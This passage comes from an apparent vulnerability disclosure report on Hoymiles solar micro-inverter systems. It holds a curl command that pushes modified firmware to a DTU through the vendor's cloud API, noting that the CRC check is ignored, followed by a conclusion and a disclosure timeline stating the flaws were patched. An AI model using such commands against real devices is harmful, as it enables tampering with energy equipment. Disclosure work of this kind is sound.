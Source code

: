 Put your modified firmware update files in the same directory:
* DTU.hex for the DTU
* MI.hex for the MI

### Start Update

A session token is needed, from the account linked to the targeted DTU and MI devices.

Here is the command to update the DTU:
```bash
curl https://neapi.hoymiles.com/pvm-ctl/api/0/dev/command/put -H "content-type: application/json" -X POST -H "Authorization: [SESSION_TOKEN]" -d '{"action":2,"dev_type":1,"dev_sn":"[DTU_SERIAL_NUMBER]","dtu_sn":"[DTU_SERIAL_NUMBER]","data":{"upg_patch_id":1234,"file_uri":"/DTU.hex","file_name":"DTU.hex","file_crc":0}}'
```
Note that the CRC is ignored.

## Conclusion

In this report different vulnerabilities affecting a micro inverter system have been described. 
We can hope that in the future proper security will be implemented on these devices/systems. The energy sector needs to catch up as far as security is concerned! 

## Disclosure

* 2023-09-01: Detailed disclosure to the BSI via „Meldeformular“
* 2023-09-07: Mail to the BSI, asking for feedback. 
* 2023-09-10: Complete pdf report sent to the BSI per mail. Still no answer.
* 2023-09-22: Mail to the BSI, asking for feedback. Still no answer. 
* 2023-09-24: Contact to Heise.
* 2023-09-25: First vulnerabilities have been patched.
* 2023-09-27: First answer from the BSI. 
* 2023-09-28: First article @Heise.
* 2023-09-29: All cloud vulnerabilities have been patched, Heise confirmed.
* 2023-09-29: Main parts of the report has been sent to the manufacturer.
* 2024-01-02: This report
